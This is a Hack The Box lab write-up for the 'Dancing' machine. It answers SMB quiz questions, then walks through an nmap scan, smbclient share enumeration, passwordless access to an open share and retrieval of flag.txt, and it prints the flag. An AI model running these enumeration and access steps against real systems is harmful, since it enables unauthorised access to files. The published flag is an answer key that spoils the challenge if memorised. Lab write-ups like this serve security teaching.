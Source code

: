 # Dancing
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: [[SMB]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---

## Tasks
1. What does the 3-letter acronym SMB stand for? 
 - **Server Message Block**
2. What port does SMB use to operate at? 
- **445**
3. What network communication model does SMB use, architecturally speaking? 
- **client-server model**
4. What is the service name for port 445 that came up in our nmap scan? 
- **microsoft-ds**
5. What is the tool we use to connect to SMB shares from our Linux distribution? 
- **smbclient**
6. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
- **-L**
7. What is the name of the share we are able to access in the end?
- **WorkShares**
8. What is the command we can use within the SMB shell to download the files we find? 
- **get**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:
`nmap -n -sC -sV 10.129.229.124`
`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).
`-sC`: Run scripts during scan.
`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sV 10.129.229.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-12 07:26 EDT
Nmap scan report for 10.129.229.124
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

It's running SMB on port 445. We can use `smbclient` to connect. 

Smbclient: `smbclient -L 10.129.229.124`
`-L`: Get a list of shares available on a host.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.229.124
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.229.124 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Awesome, there is a share for us to poke around in. To access it, we need to follow a special syntax.

Command:
 `smblient \\\\10.129.229.124\\WorkShares`
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.
`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.229.124\\WorkShares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
```

`ls` to show the contents of the share.

```
smb: \> ls
  .                                   D        0  Tue Apr 12 11:37:11 2022
  ..                                  D        0  Tue Apr 12 11:37:11 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

`cd` to change directory into the James.P folder. 

```
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

We can see the flag. We can use `get` to download the file via SMB.

Type `exit` to gracefully close the connection afterwards.

```
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
```

Now that we have the file, we just need to `cat` it.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```

**Flag:** `5f61c10dffbc77a704d76016a22f1664`

---
**Tags:** [[HackTheBox]]